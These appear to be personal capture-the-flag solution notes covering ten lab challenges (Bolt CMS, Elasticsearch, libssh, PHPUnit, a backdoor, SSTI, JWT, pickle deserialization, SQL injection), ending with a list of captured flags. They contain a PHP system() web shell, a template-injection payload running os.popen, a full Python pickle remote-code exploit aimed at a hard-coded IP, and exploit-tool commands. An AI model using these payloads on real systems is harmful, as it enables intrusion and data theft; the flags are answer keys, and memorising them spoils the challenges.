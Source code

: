 # dirsearch2
dirsearch

Bolt

1. view page saurce ( its written on bolt)
2. url/bolt
3. admin – password
4. file management – create file.txt enter - <?php echo system($_GET['cmd']);?>
5. rename flag.txt to file.php go to file
6. url = php?cmd=ls -l
7. php?cmd=cat /flag.txt
path traversal vulnerability 

Elastic ?

1. msfconsole 
2. search elasticsearch
3. use 3(an romelsac director traversial uweria
4. info
5. set rhost x.x.x.x
6. set rport yyyy
7. run
8. exit
9. cat grdzeli.txt
directory traversal 

Libssh

1. searchsploit libssh
2. searchsploit -m linux/remote/46307.py
3. python3 file 34.141.12.127  31367  "cd ..;cat flag.txt"
libSSH vulnerability 

Php unit

1. php unit cve (vulnerability)

1. dirsearch -u url 

2. url /composer.json

3. burp url/eval-stding.php

4. <?php system('cat /flag.txt')?>

path traversal 

Non-diff backdoor

1. Dirsearch -u url
2. Backup.zip
3. Wget url/backup.zip
4. Cd backup 
5. Grep -r “shell_exec(“
6. Cat ….php
7. url?welldone=knockknock&shazam=id 
8. =cat flag.php
9. View page source
10. 108zea
Shark

1. ${7*7}
2. Burp 
3. Submit something 
4. Name= 
<%
import os
x=os.popen(‘cat flag’).read()
%>
${x}
5. Repeater 
Vulnerability - Server Site Template Injection

Authorization

1. Python3 ./dirsearch.py -u link -w db/dicc.txt
2. /auth/client_secrets.json/robots.txt/secrets
3. Burp
4. Get -post
5. Data is In json format
6. { “username”:”admin”, “password":”admin”}
7. Get /secrets
content-type: application/json
Authorization: JWT
is ragac
vulnerability is in how the application handles user authentication and authorization JWT Implementation Issues

online-encryption

1. Traffic http filter
2. Hash 1427
3. Htlm 
4. Base64decode.org
5. Rot13.com (13 letter apart)
Poor encryption and basic obfuscation techniques are used in the handling of sensitive data during network transmission.

Sweet-and-sour

1. Curl -I link
2. Echo -n “cookie” | base64 -d
3. Nano ragaca.py
4. import pickle
import base64

import requests

 

 

class Exploit(object):

      def __reduce__ (self):

           return eval, ("open('flag', 'r').read()", )

 

def sendPayload (p):

      print (base64.urlsafe_b64encode(p))

      headers = {"Cookie":"data=" + base64.urlsafe_b64encode(p).decode ()}

      t = requests.get ("http://35.198.135.192:30562/dashboard", headers=headers)

     print (t. text)

 

sendPayload (pickle.dumps (Exploit(), protocol=2))

5. Python ragaca 
Schematics

1. Dirsearch -I link
2. %
3. Sqlmap –cookie=”PHPSESSID=…” -u link/index.php –forms –columns –random-agent




Flags:
Bolt - CTF{b12e3b34c581d4f3c66c00cc7f8dabec8838dab0acf26c2cfbe2f7d291326f75}
Elastic - CTF{265b92ed0091f139fdcd438196426f205fed9b14bce765bafd8344b1d96183e5}
Libssh - CTF{754a4874399c6c15f6f12d31bccb438d1d42b540e5cec9c2371a831bb1eabeed}
Phpunit - CTF{8c7795c5332da1491741a61fe780006a619273444bfe54aff555e28f83e3b123}
Non-diff Backdoor - CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}
Shark - CTF{4b08602e0090f81707b98ca687a5cacfd32888ffceef1d3cff2d99e6034b1e58}
Authorization - 
online-encryption - ECSC{dd545fbf12fd608daa8c201f50f95c8520bec9f744a3573b1dc0bc53ce019726}
Sweet-and-sour - 
Schematics - CTF{1nformat1on_sch3ma_c4n_cont41n_us3ful_d4t4}
